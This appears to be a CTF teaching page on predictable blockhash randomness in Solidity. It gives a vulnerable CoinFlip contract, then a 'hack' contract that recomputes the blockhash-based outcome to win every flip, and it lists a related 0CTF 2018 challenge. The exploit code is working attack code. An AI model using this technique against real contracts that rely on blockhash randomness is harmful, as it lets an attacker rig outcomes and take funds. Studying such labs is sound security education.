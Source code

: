 ```solidity
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract hack{
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  address instance_address = ContractAddress;
  CoinFlip c = CoinFlip(instance_address);
  
  function exploit() public {
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    c.flip(side);
  }
}
```

### 题目

- 0CTF Final 2018 : ZeroLottery
